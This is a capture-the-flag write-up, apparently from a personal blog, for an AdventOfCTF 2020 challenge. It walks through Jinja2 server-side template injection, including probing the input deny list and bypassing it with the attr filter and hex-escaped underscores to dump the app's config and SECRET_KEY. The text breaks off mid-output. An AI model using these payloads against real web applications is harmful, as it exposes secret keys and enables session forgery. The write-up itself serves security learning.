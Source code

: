 The description makes a reference to [yesterday's challenge]({{% ref "posts/adventofctf/2020/challenge_16.md" %}}) so we probably have to use the same concept.

Let's verify it by trying the following input: `{{7*7}}`. It returned `49` so we can continue with the next step.

## Exploit

Just like [yesterday's challenge]({{% ref "posts/adventofctf/2020/challenge_16.md" %}}), we start by trying to get the config like so: `{{config.items()}}`. Sadly, we get an error message: "You entered an emoji that is on my deny list".

### Blacklist

As it turns out, this challenge has a blacklist on the input. Let's first test what is and what isn't allowed. We can do this by just trying some characters:

`{{7*7}}` -> `49`  
`{{7*'7'}}` -> deny list  
`{{7*"7"}}` -> `7777777`  
`{{7*"_"}}` -> deny list  
`{{7*"confi"}}` -> `conficonficonficonficonficonficonfi`  
`{{7*"config"}}` -> deny list  
`{{7*"."}}` -> deny list

Blacklist: `'`, `_`, `config`, `.`

### Getting the config

As "config" is blacklisted, we have to come up with another way to access it. Luckily there is a fairly straightforward way to get it as `config` is saved in `context`. And, in jinja2, `self` in a template refers to `context`. This means we can get it by reading `self.__dict__`.

We cannot do this directly however, as dots and underscores are blacklisted. Luckily, jinja2 has some [built-in filters](https://jinja.palletsprojects.com/en/master/templates/#builtin-filters) like `attr` that allow us to get attributes from a variable.

This works by piping a variable into a filter like so `{{self|attr("")}}`. This string passed to `attr` is the attribute we want. We can't just fill in `__dict__` however, because of the blacklist. But, because we pass the attribute as a string, we can use it's hexadecimal ASCII value like so: `\x5f`.

The resulting input is the following: `{{self|attr("\x5f\x5fdict\x5f\x5f")}}`.

```yml
{
    '_TemplateReference__context': <Context {
        'range': <class 'range'>,
        'dict': <class 'dict'>,
        'lipsum': <function generate_lorem_ipsum at 0x7f2a4eda4a70>,
        'cycler': <class 'jinja2.utils.Cycler'>,
        'joiner': <class 'jinja2.utils.Joiner'>,
        'namespace': <class 'jinja2.utils.Namespace'>,
        'url_for': <function url_for at 0x7f2a4dfc6ef0>,
        'get_flashed_messages': <function get_flashed_messages at 0x7f2a4dfcd0e0>,
        'config': <Config {
            'ENV': 'production',
            'DEBUG': False,
            'TESTING': False,
            'PROPAGATE_EXCEPTIONS': None,
            'PRESERVE_CONTEXT_ON_EXCEPTION': None,
            'SECRET_KEY': 'Leer alles over Software Security bij Arjen (follow @credmp) at https://www.novi.nl', 'PERMANENT_SESSION_LIFETIME': datetime.timedelta(days=31),
            'USE_X_SENDFILE': False,
            'SERVER_NAME': None,
            'APPLICATION_ROOT': '/',
            'SESSION_COOKIE_NAME': 'session',
```